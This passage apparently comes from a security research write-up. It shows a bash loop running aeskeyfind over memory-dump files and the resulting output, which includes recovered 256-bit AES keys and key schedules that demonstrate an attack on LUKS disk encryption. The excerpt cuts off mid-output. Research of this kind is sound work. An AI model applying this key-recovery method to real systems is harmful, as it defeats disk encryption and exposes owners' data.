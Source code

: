 The attack on LUKS is still successful:

```bash
$ while read -r file; do
echo -e "Checking file: $file"
aeskeyfind -v $file
done < <(ls ./*.csv)
Checking file: ./2025_05_02_15_26_0x0000000000001000.csv
Keyfind progress: 100%
Checking file: ./2025_05_02_15_26_0x0000000000100000.csv
Keyfind progress: 100%
Checking file: ./2025_05_02_15_26_0x0000000001600000.csv
Keyfind progress: 100%
Checking file: ./2025_05_02_15_27_0x000000007BD48000.csv
Keyfind progress: 100%
Checking file: ./2025_05_02_15_27_0x000000007F5EE000.csv
Keyfind progress: 100%
Checking file: ./2025_05_02_15_27_0x000000007FC00000.csv
Keyfind progress: 100%
Checking file: ./2025_05_02_15_27_0x000000007FD20000.csv
Keyfind progress: 100%
Checking file: ./2025_05_02_15_27_0x0000000100000000.csv
FOUND POSSIBLE 256-BIT KEY AT BYTE 7aae420

KEY: fbd6ea69496a02f6af8bd0e889372214a5ad905e62237a45ab9719b7108e8ee9

EXTENDED KEY:
fbd6ea69496a02f6af8bd0e889372214
a5ad905e62237a45ab9719b7108e8ee9
e3cff4a3aaa5f655052e26bd8c1904a9
c179628da35a18c808cd017f18438f96
fbbc640e5119925b5437b4e6d82eb04f
a048850903129dc10bdf9cbe139c1328
21c1507370d8c22824ef76cefcc1c681
103031051322acc418fd307a0b612352
c6e75058b63f927092d0e4be6e11223f
8fb2a2709c900eb4846d3ece8f0c1d9c
28438e2b9e7c1c5b0cacf8e562bddada
25c8f527b958fb933d35c55db239d8c1
1a22f61c845eea4788f212a2ea4fc878
a24c1d9b1b14e608262123559418fb94
f72dd43e73733e79fb812cdb11cee4a3

CONSTRAINTS ON ROWS:
0000000000000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000000000
00000000000000000000000000000000
56de1b21addaab1267887381738dd32766ea6ffaf6a968d5739831ea7d4795e8
0621c9eaff653ef3aa9ac59d743350f6f1f6b3dd5bec2982ef71bcf06aabea5c
533d3758c29e840855fffb6edea9956b9f6984a024bfc1bdb49d957285da56ac
fb63cc40f733162997617f668b566e05512226b834a51c67902254cf3147c3de
c3218667f6ed12796052694f1c37116358ac834ec530ecf7a48748a8a1659711
faadf6045fd4bf0796bf7b367c65782ce8ea413d082b2c5961b7a45f05e2dfb9
4c16e99d04f1abcfc96bc431eada031a93fc9107d6e993797ee212f56e8a420a

FOUND POSSIBLE 256-BIT KEY AT BYTE 7aaf020

KEY: 1598a0169daa9a0b35efc5774623d07a7362ef77be66d5a42b396f1bc77e01d2

EXTENDED KEY:
```